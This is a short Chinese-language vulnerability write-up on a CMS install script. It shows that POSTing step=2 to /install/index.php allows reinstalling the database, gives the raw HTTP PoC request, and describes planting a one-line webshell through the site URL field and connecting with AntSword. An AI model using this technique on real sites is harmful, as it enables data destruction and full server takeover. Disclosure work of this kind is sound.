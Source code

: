 ​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交

![](images/图片1.pngg)

继续往下看发现step 为1,2,3,4，分别进入不同的php页面
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps1.jpg)

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps2.jpg)

在step_2.php文件中发现step=2时，可以进入该页面

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps3.jpg) 

尝试burp提交数据2,3,4

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps4.jpg) 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps5.jpg)

 

 

 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps6.jpg) 

 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps7.jpg) 

Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps16.jpg)

可以重装数据库

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps17.jpg) 

同时，发现填写数据库的信息是部分可控制的

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps18.jpg) 

发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps19.jpg)

在网站访问网址地址这一栏加入一句话木马

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps20.jpg) 

 

查看代码，发现一句话木马写入成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps21.jpg) 

使用蚁剑进行连接，链接成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps22.jpg) 

 

查看文件

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps23.jpg) 
